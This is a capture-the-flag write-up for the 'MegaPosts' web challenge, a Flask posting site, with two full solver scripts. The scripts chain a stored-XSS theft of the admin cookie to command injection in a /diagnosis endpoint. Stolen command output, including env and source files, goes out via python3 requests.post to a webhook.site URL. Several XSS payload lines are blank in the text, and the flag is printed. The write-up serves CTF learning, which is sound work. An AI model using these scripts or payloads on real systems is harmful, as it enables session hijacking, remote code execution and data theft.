



# MegaPosts

**Category:** WEB
**Flag:** `HackOn{an0ther_d4y_an0th3er_fa1lur3_f0r_qixfnqu}`

## Description

> MiniPosts es una ruina, de mis peores proyectos. Por eso ahora presento la versión nueva: MegaPosts

Flask web application with user registration, posts, profiles, an admin bot, and a hidden `/diagnosis` admin endpoint.

## TL;DR

Stored XSS in profile bio to steal admin cookie, then command injection in `/diagnosis` endpoint. Exfiltration via `python3 -c "import requests; requests.post(WEBHOOK, data=os.popen(CMD).read())"` since curl/wget are not installed in the container.

## Analysis

The app is a Flask posting platform at `https://hackon-mega-posts.chals.io/`. Key features:

1. **User registration/login** with profile bio field
2. **Admin bot** triggered via `POST /visit` that visits your profile
3. **Admin panel** at `/admin` with a `/diagnosis` endpoint that runs `cat /proc/modules | grep <DRIVER>` via `subprocess`
4. **Session cookies** with `SESSION_COOKIE_HTTPONLY=False`: cookies are accessible via JavaScript

### XSS Payload Limitations

The bio field has a **~250 character limit**, which severely constrains the XSS payload. Key constraints:

- `<script>` tags are stripped — they don't get saved
- Standard HTML tags like `<b>`, `<i>` are also stripped
- **What works:** ``, `<svg>`, `<details>`, `<input>`, `<marquee>` with event handlers (`onerror`, `onload`, `onfocus`, `ontoggle`)
- The 250-char limit means inline JS must be minimal — the trick is to **base64-encode** the JS and use `eval(atob('...'))` inside the event handler:
  ```html
  
  ```
- Even with base64, the JS logic itself must be kept short (~100 chars decoded) to fit within the limit
- Error handling (`catch`) often had to be dropped to save space

The `/diagnosis` endpoint is vulnerable to command injection through the `driver` parameter, but only accessible to admin users.

The bio field accepts HTML including `` tags with `onerror` event handlers, enabling stored XSS. The `/diagnosis` endpoint is vulnerable to command injection through the `driver` parameter, but only accessible to admin users.

The container has no `curl` or `wget`, but since it's a Flask app, Python's `requests` library is available for exfiltration.

## Solution

### Prerequisites

- Python 3 with `requests` library
- A webhook endpoint (e.g., webhook.site) to receive exfiltrated data



1. **Register a user** and get the profile UID
2. **Set XSS payload in bio** to steal admin cookie:
   ```html
   
   ```
   The JS fetches `/post` with `content=CK:<cookie>` to exfiltrate the admin session cookie via a post on the dashboard.

3. **Trigger the bot** via `POST /visit`: bot visits profile, XSS fires, cookie gets posted

4. **Read the stolen cookie** from the dashboard posts

5. **Use admin cookie to inject commands** via `POST /diagnosis`:
   ```
   driver=; python3 -c "import requests,os; requests.post('https://webhook.site/UUID', data=os.popen('ls /app').read())"
   ```

6. **Enumerate**: `ls /app` reveals `f83cd6f00a8688c23d359187a5b94103_flag.txt`

7. **Read the flag**:
   ```
   driver=; python3 -c "import requests,os; requests.post('https://webhook.site/UUID', data=os.popen('cat /app/f83cd6f00a8688c23d359187a5b94103_flag.txt').read())"
   ```

### Solve Script

```python
#!/usr/bin/env python3
"""MegaPosts solver - XSS to steal admin cookie, then command injection via /diagnosis"""
import requests, time, re, base64, sys

BASE = 'https://hackon-mega-posts.chals.io'
WEBHOOK = 'https://webhook.site/<YOUR-UUID>'

# ── Step 1: Steal admin cookie via XSS ──────────────────────────────
print('[*] Step 1: Stealing admin cookie via XSS...')

s = requests.Session()
user = f'sol{int(time.time())}'[-8:]
s.post(f'{BASE}/register', data={'username': user, 'email': f'{user}@t.com', 'password': 'p'}, timeout=15)
s.post(f'{BASE}/login', data={'username': user, 'password': 'p'}, timeout=15)
r = s.get(f'{BASE}/dashboard', timeout=15)
uid = re.search(r'/profile\?uid=(\d+)', r.text).group(1)
print(f'  [+] Registered as {user}, uid={uid}')

# XSS payload: steal cookie and post it to dashboard
js = f"fetch('/post',{{method:'POST',body:new URLSearchParams({{content:'CK:'+document.cookie}})}})"
b64 = base64.b64encode(js.encode()).decode()
xss = f''
print(f'  [+] XSS payload length: {len(xss)}')

s.post(f'{BASE}/profile?uid={uid}', data={'bio': xss}, timeout=15)
r = s.get(f'{BASE}/profile?uid={uid}', timeout=15)
if 'onerror' not in r.text:
    print('  [-] XSS not saved!')
    sys.exit(1)

print('  [+] XSS saved, triggering bot visit...')
try:
    s.post(f'{BASE}/visit', timeout=60)
except:
    pass

time.sleep(5)

# Read stolen cookie from dashboard
r = s.get(f'{BASE}/dashboard', timeout=15)
cookies = re.findall(r'CK:(session=[^<]+)', r.text)
if not cookies:
    print('  [-] No cookie found, checking all posts...')
    posts = re.findall(r'<p>([^<]+)</p>', r.text)
    for p in posts[:10]:
        print(f'    {p[:120]}')
    sys.exit(1)

admin_cookie = cookies[0].split('=', 1)[1]
print(f'  [+] Admin cookie: {admin_cookie[:40]}...')

# ── Step 2: Command injection via /diagnosis ────────────────────────
print('\n[*] Step 2: Command injection via /diagnosis')

admin = requests.Session()
admin.cookies.set('session', admin_cookie, domain='hackon-mega-posts.chals.io')

# Verify admin access
r = admin.get(f'{BASE}/admin', timeout=15)
if 'admin' not in r.text.lower():
    print('  [-] Admin access failed')
    sys.exit(1)
print('  [+] Admin panel accessible')

# First: ls / to find the flag
def inject(cmd, label=""):
    """Inject command via /diagnosis driver parameter, exfiltrate via python3+requests to webhook"""
    payload = f'; python3 -c "import requests,os; requests.post(\'{WEBHOOK}\', data=os.popen(\'{cmd}\').read())"'
    print(f'  [>] {label or cmd}')
    r = admin.post(f'{BASE}/diagnosis', data={'driver': payload}, timeout=30, allow_redirects=False)
    print(f'      Status: {r.status_code}')
    time.sleep(3)

# List root directory
inject('ls /', 'ls /')
time.sleep(5)

# Try common flag locations
inject('cat /flag*', 'cat /flag*')
time.sleep(3)
inject('cat /app/flag*', 'cat /app/flag*')
time.sleep(3)
inject('find / -name "flag*" -type f 2>/dev/null', 'find flags')
time.sleep(3)

# ── Step 3: Check webhook for results ───────────────────────────────
print('\n[*] Step 3: Checking webhook for results...')
time.sleep(5)

r = requests.get(f'https://webhook.site/token/<YOUR-UUID>/requests?sorting=newest', timeout=15)
data = r.json()
if 'data' in data:
    for req in data['data']:
        content = req.get('content', '') or req.get('text_content', '') or ''
        if content:
            print(f'  [+] Response: {content[:500]}')
            if 'HackOn' in content or 'flag' in content.lower() or 'Hack0n' in content:
                print(f'\n  [!!!] FLAG FOUND: {content.strip()}')
else:
    print('  [-] No webhook data yet')
    print(f'  Check manually: https://webhook.site/#!/view/<YOUR-UUID>')
```

### Exfil Helper

Quick helper script to run arbitrary commands reusing a freshly stolen admin cookie:

```python
#!/usr/bin/env python3
"""Quick exfil helper - reuses admin cookie"""
import requests, time, re, base64, sys

BASE = 'https://hackon-mega-posts.chals.io'
WEBHOOK = 'https://webhook.site/<YOUR-UUID>'

# Get admin cookie
s = requests.Session()
user = f'ex{int(time.time())}'[-8:]
s.post(f'{BASE}/register', data={'username': user, 'email': f'{user}@t.com', 'password': 'p'}, timeout=15)
s.post(f'{BASE}/login', data={'username': user, 'password': 'p'}, timeout=15)
r = s.get(f'{BASE}/dashboard', timeout=15)
uid = re.search(r'/profile\?uid=(\d+)', r.text).group(1)

js = f"fetch('/post',{{method:'POST',body:new URLSearchParams({{content:'CK:'+document.cookie}})}})"
b64 = base64.b64encode(js.encode()).decode()
xss = f''
s.post(f'{BASE}/profile?uid={uid}', data={'bio': xss}, timeout=15)
try:
    s.post(f'{BASE}/visit', timeout=60)
except:
    pass
time.sleep(5)
r = s.get(f'{BASE}/dashboard', timeout=15)
cookies = re.findall(r'CK:(session=[^<]+)', r.text)
admin_cookie = cookies[0].split('=', 1)[1]
print(f'[+] Cookie: {admin_cookie[:30]}...')

admin = requests.Session()
admin.cookies.set('session', admin_cookie, domain='hackon-mega-posts.chals.io')

cmds = sys.argv[1:] if len(sys.argv) > 1 else ['ls /app', 'cat /app/entrypoint.sh', 'cat /entrypoint.sh', 'env', 'cat /app/app.py']

for cmd in cmds:
    payload = f'; python3 -c "import requests,os; requests.post(\'{WEBHOOK}\', data=os.popen(\'{cmd}\').read())"'
    print(f'[>] {cmd}')
    admin.post(f'{BASE}/diagnosis', data={'driver': payload}, timeout=30, allow_redirects=False)
    time.sleep(4)

print(f'\n[*] Check: https://webhook.site/#!/view/<YOUR-UUID>')
time.sleep(5)

r = requests.get(f'https://webhook.site/token/<YOUR-UUID>/requests?sorting=newest&per_page=10', timeout=15)
for req in r.json().get('data', []):
    content = req.get('content', '') or req.get('text_content', '') or ''
    if content:
        print(f'---\n{content[:800]}')
```





## Flag

```
HackOn{an0ther_d4y_an0th3er_fa1lur3_f0r_qixfnqu}
```
